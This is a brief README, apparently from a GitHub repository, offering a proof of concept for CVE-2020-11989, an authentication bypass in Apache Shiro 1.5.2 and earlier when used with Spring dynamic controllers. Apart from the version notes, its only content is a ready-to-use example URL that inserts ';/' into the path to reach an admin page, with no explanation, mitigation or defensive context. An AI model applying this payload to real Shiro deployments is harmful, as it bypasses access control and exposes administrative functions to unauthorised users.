 # CVE-2020-11989/Shiro Bypass poc

- shiro<=1.5.2
- with Spring Dynamic Controllers

```
https://www.baidu.com/;/path1/admin/home
```
